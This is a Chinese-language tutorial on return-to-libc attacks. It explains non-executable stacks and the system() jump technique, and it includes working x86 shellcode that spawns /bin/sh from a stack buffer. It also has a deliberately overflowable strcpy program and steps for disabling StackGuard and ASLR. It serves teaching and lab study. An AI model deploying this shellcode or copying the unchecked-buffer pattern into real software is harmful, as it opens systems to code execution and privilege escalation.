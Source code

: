# return-to-libc攻击背景

缓冲区溢出漏洞是把恶意代码注入到目标程序栈中发动攻击。为了抵御这种攻击，操作系统采用一个称为***不可执行栈***
的防御措施。这种防御措施能被另一种无须在栈中运行代码的攻击方法绕过，这种方法叫return-to-libc攻击。

## gcc指令控制栈执行

```c
#include <string.h>

const char code[] = 
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80";

int main(int argc, char **argv)
{
    char buffer[sizeof(code)];
    strcpy(buffer, code);
    ((void(*)())buffer)();
}
```
这段代码是将一段shellcode放入栈中缓冲区，然后将缓冲区转换为函数，接着调用这个函数，产生一个shell。

![gcc指令控制栈可执行](../img/returntolibc-execstack.png)
可以看到gcc编译指令可以控制栈是否可以执行。

## execstack控制已编译程序

```bash
sudo apt-get install execstack -y
```
![execstack命令控制栈可执行](../img/returntolibc-command.png)

## 程序运行不经过栈可行性

内存中有一个区域存放着很多代码，主要是标准C语言库函数。在linux中，该库被称为libc，它是一个动态链接库。
操作系统会把libc库加入内存中。  
问题就变成是否存在一个libc函数可供利用，让有漏洞的程序跳转到该libc函数。  
容易利用的函数是system()，如果想在缓冲区溢出后运行一个shell，无须自己编写shellcode，只需要跳转到
system()函数，让它来运行指定的/bin/sh程序即可。这个攻击策略叫return-to-libc攻击。

## 攻击环境准备

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char *str)
{
    char buffer[100];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[400];
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);
    
    printf("Returned Properly\n");
    return 1;
}
```
![准备攻击环境](../img/returntolibc-perpare.png)
关闭StackGuard，打开不可执行栈，关闭ASLR，变成set-uid程序